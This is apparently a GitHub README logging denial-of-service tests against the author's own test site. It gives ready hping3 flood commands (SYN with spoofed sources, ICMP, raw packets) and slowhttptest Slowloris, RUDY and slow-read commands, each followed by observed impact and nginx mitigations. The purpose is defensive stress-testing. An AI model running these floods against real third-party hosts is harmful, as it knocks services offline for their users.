





# HSA ddos
DDOS attack analysis

<h3>Protocol attacks</h3>

<h4>TCP SYN flood</h4>

```
hping3 --rand-source --flood -S -q -n -d 120 mysite -p 80
```
No impact observed on opening ``mysite``. Floods network but mysite can still be opened.

<h3>Volume-based (bandwidth) attacks</h3>

<h4>ICMP (ping) flood</h4>

```
 hping3 --rand-source --flood -1 mysite -p 80
```
Observed impact on opening ``mysite``.<br/>
Solution: block ICMP ping requests on OS system level.

<h3>Application-Layer attacks</h3>

<h4>HTTP flood</h4>

```
/ # hping3 --rand-source --flood mysite -p 80
HPING mysite (eth0 172.18.0.2): NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- mysite hping statistic ---
39803762 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
No impact observed on opening ``mysite``. Floods network but ``mysite`` can still be opened.



<h4>Slow Headers (Slowloris)</h4>
It is an application layer attack that uses partial HTTP requests to a web server and then it tries to keep them open as long as it can. This attack uses low bandwidth.

```
slowhttptest -H -u http://localhost:8080/ -c 2000 -r 100 -g -o slowloris-test
```


Slow Headers attack mitigated with nginx config ``slow_headers.conf``. Service left operational during test execution time.


<h4>Slow Body (R-U-Dead-Yet)</h4>

Slow post or R-U-Dead-Yet (RUDY) is another application layer attack and in a difference from slowloris it uses legitimate HTTP POST headers to attack, however the message body is sent at a very low speed, which can be as slow as one byte every two minutes.

```
slowhttptest -B -u http://localhost:8080/ -c 5000 -r 100 -s 16384 -g -o slowpost-test
```
Service is left available during test execution time.




<h4>Slow Read</h4>

Request content from the server and slowly stream it to the client, which keeps the connection open until the content has been received.

```
slowhttptest -X -u http://localhost:8080/  -c 5000 -r 1000 -n 5 -z 32 -g -o slowread-test4
```
No impact observed on opening ``mysite``. Server takes from pool and processes constant number of connections (~1K active connections).




Resources
1. [Mitigating DDoS Attacks with NGINX](https://blog.nginx.org/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus)
2. [Slow http attacks](https://github.com/jatj/sdn_onos/blob/master/SLOW_HTTP_ATTACKS.md)
3. [Slow http attacks2](https://gist.github.com/serogers/ba4e124d6be79eacbf712a558239a67d)
4. [From Stress testing to DDOS](https://dou.ua/forums/topic/37287/)